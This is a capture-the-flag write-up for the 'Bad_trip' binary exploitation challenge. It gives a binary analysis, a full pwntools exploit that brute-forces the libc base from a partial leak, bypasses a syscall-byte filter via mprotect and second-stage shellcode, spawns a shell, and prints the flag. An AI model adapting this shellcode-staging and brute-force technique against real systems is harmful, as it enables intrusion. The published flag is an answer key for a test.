 https://ctftime.org/event/2222

# Bad_trip (PWN)

im giving you a leak, how cant you solve this. BAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAD TRIP

nc 172.210.129.230 1352

## Binary Analysis

- `main` @ `0x00101345`
    - maps a page @ `0x1337131000` with rwx
    - maps a large region @ `0x69696b6500` with rw
    - leaks the lower 32 bits of the `libc.so.6` symbol `puts`
    - reads your code into the first single page we mapped @ `0x1337131000`
    - removes w from the page
    - calls `filter`
        - if the filter returns non-zero `exit(-1)`
    - calls `exec`

- `filter` @ `0x00101282`
    - checks for the byte sequences `0f 05` and `cd 80`
        - these correspond to `syscall`, `int 0x80`
    - code also checks for `0f 04` but idk what this does

- `exec` @ `0x001011df`
    - clears a bunch of registers including `rsp`
    - jumps to `0x1337131000` / our code


Notably we can see that `bad_trip` is using PIE:

```
$ pwn checksec ./bad_trip 
[*] '/home/user/ctf/bad_trip/bad_trip'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Therefore we will have to determine the base of `libc.so.6` using the `puts` leak.

## Getting libc.so.6

We can see from the `Dockerfile` that the task is using `archlinux` btw:

```
FROM archlinux


RUN pacman -Sy
RUN pacman -S --noconfirm socat

EXPOSE 1352

RUN useradd ctf

WORKDIR /chal
COPY bad_trip /chal
COPY flag.txt /chal

USER ctf

CMD ["socat", "tcp-l:1352,reuseaddr,fork", "EXEC:./bad_trip"]
```

The version of `libc.so.6` I was able to extract from a running instance of this container had the following hash:

`fc4c52f3910ed57a088d19ab86c671358f5e917cd4e95b21fd08e4fd922c0aa2`

I did this by hacking `ret`'s `libc` command a bit as It assumes you want `libc.so.6` from an `apt` based distro currently:

https://github.com/rerrorctf/ret/blob/main/commands/libc.go

## Solution

1) Use the leak combined with a guess to guess the `libc.so.6` base address
1) Restore the stack so we can make function calls using the provided RW region `0x69696b6500`
2) Change the protections on `0x1337131000` so we can write more shellcode
3) Call `read` to read more shellcode - containing the syscall
4) Pivot to the new shellcode we read

```python
from pwn import *
import secrets

elf = ELF("./bad_trip", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)
try:
    p = remote("172.210.129.230", 1352)

    p.readuntil(b"start with ")
    leak = int(p.readline().decode(), 16)
    leak = 0x700000000000 | (secrets.randbelow(0x1000) << 32) | leak
    libc.address = leak - libc.sym["puts"]

    payload = b"\x90" * 50 # nops to overwrite
    payload += asm("mov rsp, 0x69696b6500") # new stack
    payload += asm("mov rdx, 7")
    payload += asm("mov rsi, 4096")
    payload += asm("movabs rdi, 0x1337131000")
    payload += asm(f"mov rax, 0x{libc.sym["mprotect"]:x}")
    payload += asm("call rax") # mprotect(0x1337131000, 4096, 7)
    payload += asm("mov rdx, 100")
    payload += asm("mov rsi, 0x1337131000")
    payload += asm("mov rdi, 0")
    payload += asm(f"mov rax, 0x{libc.sym["read"]:x}")
    payload += asm("call rax") # read(0, 0x1337131000, 100)
    payload += asm("movabs rax, 0x1337131000")
    payload += asm("jmp rax") # jmp 0x1337131000

    p.readuntil(b"code >> ")
    p.sendline(payload)

    p.sendline(asm(shellcraft.sh()))

    p.clean()

    p.sendline(b"/bin/cat flag.txt")

    print(p.readline().decode())

    p.interactive()
except:
    pass
```

To speed up the bruteforcing process I simply ran this bash script in 8 shells and waiting for one to hang on the shell:

```bash
#!/bin/bash

while true; do
  python3 go.py
done
```

In speaking to the admin it seems that the intended solve was to upload shellcode that would itself bruteforce these bits.

## Flag
`AKASEC{pr3f37CH3M_Li8C_4Ddr35532}`

smiley 2024/06/09
